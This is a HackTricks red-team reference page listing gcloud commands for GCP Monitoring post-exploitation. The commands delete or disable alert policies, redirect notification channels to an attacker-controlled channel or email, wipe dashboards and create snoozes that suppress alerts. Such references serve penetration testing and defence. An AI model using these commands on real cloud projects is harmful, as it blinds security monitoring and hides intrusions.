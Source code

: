 # GCP - Monitoring Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Monitoring

Fore more information check:

{% content-ref url="../gcp-services/gcp-monitoring-enum.md" %}
[gcp-monitoring-enum.md](../gcp-services/gcp-monitoring-enum.md)
{% endcontent-ref %}

For other ways to disrupt logs check:

{% content-ref url="gcp-logging-post-exploitation.md" %}
[gcp-logging-post-exploitation.md](gcp-logging-post-exploitation.md)
{% endcontent-ref %}

### `monitoring.alertPolicies.delete`

Delete an alert policy:

```bash
gcloud alpha monitoring policies delete <policy>
```

### `monitoring.alertPolicies.update`

Disrupt an alert policy:

```bash
# Disable policy
gcloud alpha monitoring policies update <alert-policy> --no-enabled

# Remove all notification channels
gcloud alpha monitoring policies update <alert-policy> --clear-notification-channels

# Chnage notification channels
gcloud alpha monitoring policies update <alert-policy> --set-notification-channels=ATTACKER_CONTROLLED_CHANNEL

# Modify alert conditions
gcloud alpha monitoring policies update <alert-policy> --policy="{ 'displayName': 'New Policy Name', 'conditions': [ ... ], 'combiner': 'AND', ... }"
# or use --policy-from-file <policy-file>
```

### `monitoring.dashboards.update`

Modify a dashboard to disrupt it:

```bash
# Disrupt dashboard
gcloud monitoring dashboards update <dashboard> --config='''
  displayName: New Dashboard with New Display Name
  etag: 40d1040034db4e5a9dee931ec1b12c0d
  gridLayout:
    widgets:
    - text:
        content: Hello World
  '''
```

### `monitoring.dashboards.delete`

Delete a dashboard:

```bash
# Delete dashboard
gcloud monitoring dashboards delete <dashboard>
```

### `monitoring.snoozes.create`

Prevent policies from generating alerts by creating a snoozer:

{% code overflow="wrap" %}
```bash
# Stop alerts by creating a snoozer
gcloud monitoring snoozes create --display-name="Maintenance Week" \
    --criteria-policies="projects/my-project/alertPolicies/12345,projects/my-project/alertPolicies/23451" \
    --start-time="2023-03-01T03:00:00.0-0500" \
    --end-time="2023-03-07T23:59:59.5-0500"
```
{% endcode %}

### `monitoring.snoozes.update`

Update the timing of a snoozer to prevent alerts from being created when the attacker is interested:

{% code overflow="wrap" %}
```bash
# Modify the timing of a snooze
gcloud monitoring snoozes update <snooze> --start-time=START_TIME --end-time=END_TIME

# odify everything, including affected policies
gcloud monitoring snoozes update <snooze> --snooze-from-file=<file>
```
{% endcode %}

### `monitoring.notificationChannels.delete`

Delete a configured channel:

```bash
# Delete channel
gcloud alpha monitoring channels delete <channel>
```

### `monitoring.notificationChannels.update`

Update labels of a channel to disrupt it:

{% code overflow="wrap" %}
```bash
# Delete or update labels, for example email channels have the email indicated here
gcloud alpha monitoring channels update CHANNEL_ID --clear-channel-labels
gcloud alpha monitoring channels update CHANNEL_ID --update-channel-labels=email_address=attacker@example.com
```
{% endcode %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
